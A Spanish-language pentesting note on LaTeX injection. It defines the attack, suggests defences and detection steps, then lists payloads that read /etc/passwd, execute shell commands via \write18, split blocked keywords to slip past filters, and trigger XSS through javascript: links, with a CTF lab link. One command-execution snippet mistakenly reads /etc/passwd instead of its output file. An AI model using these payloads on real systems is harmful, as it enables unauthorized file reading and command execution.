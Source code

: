 ---------
- Tags: #OWASP_TOP_10 #vulnerabilidad #hacking #LaTeX #exploiting 
--------------

# Definición
   
> Los ataques de **LaTeX Injection** implican la inserción de comandos LaTeX maliciosos en campos de entrada o contenido web, lo que puede llevar a la ejecución de código no autorizado o a la generación de contenido peligroso en documentos. 
> 
> Un ejemplo de este tipo de inyección podría ser un ataque que aproveche la capacidad de LaTeX para **incluir gráficos y archivos** en una aplicación. El atacante podría enviar un código en LaTeX que incluya un enlace a un archivo malicioso que podría infectar el servidor.
> 
> Para evitar las inyecciones LaTeX, las aplicaciones web deben **validar y limpiar** adecuadamente los datos que se reciben antes de procesarlos en LaTeX. Esto incluye la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en LaTeX. Además es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red, además de monitorizar regularmente las actividades para detectar posibles inyecciones.

----------
# Detección de vulnerabilidad 

- **Revisar la funcionalidad LaTeX**: Identifica las partes de la aplicación web donde los usuarios pueden ingresar o cargar contenido LaTeX. Estas partes pueden ser campos de entrada, área de carga de archivos y más.
- **Entrada de prueba**: Introduce una fórmula LaTeX de prueba, para confirmar que se están procesando las fórmulas LaTeX.
- **Entrada maliciosa**: Intenta ingresar una fórmula LaTeX maliciosa que contenga comandos o secuencias de escape peligrosas. Algunos ejemplos de comandos LaTeX peligrosos incluyen `\input`, `\include`, `\includegraphics`, entre otros. 
- **Observe la respuesta**: Examina la respuesta de la aplicación web. Si la página muestra errores, mensajes inesperados o se comporta de manera anormal después de ingresar la fórmula LaTeX maliciosa, es posible que hayas encontrado una vulnerabilidad de inyección de LaTeX.
----------
# Explotación

Una vez descubierta la vulnerabilidad, podemos intentar inyectar distintos [[Payload]] para intentar conseguir información del sistema.
## Lectura de archivos

Para leer un archivo y mostrarlo en el archivo generado:

```
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```

Para leer una única línea de un archivo:

```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Para leer múltiples líneas de un archivo:

```
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Esto puede petar, ya que hay caracteres que entran en conflicto con LaTeX. Para ello, podemos utilizar un script para mostrar únicamente las líneas que sí se puedan leer.

## Ejecución de comandos

``` 
\immediate\write18{id > output}
\input{output}
```

En el caso en el que no podamos ejecutar  \input, podemos utilizar los distintos métodos vistos anteriormente para la lecutra del archivo output, por ejemplo:

```
\immediate\write18{id > output}
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

También puede ser que hayan distintos directorios que podemos encontrar, por ejemplo con [[Gobuster]], en el que se guardan dichos archivos. Entonces podríamos generar el output del comando como lo estábamos haciendo y acceder al subdirectorio, como /compile, para poder leerlo.

## Burlar restricción de entrada

Si hay palabras o comandos que están censurados, podemos tratar de realizar lo siguiente para intentar ignorar la restricción. Suponiendo que la palabra es "pepito", podemos descomponer la palabra en "pep" y "ito", de manera que si lo unimos conseguimos la palabra censurada:

```
\def\first{pep}
\def\second{ito}
\first\second
```
## [[XSS (Cross-Site Scripting)]]

Podemos tratar de dirigir el ataque a un [[XSS (Cross-Site Scripting)]], para probar si es vulnerable, podemos intentar los siguientes payloads:

```
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```
--------------
# Ejemplos prácticos

- **Laboratorio LaTeX Injection**: [https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code)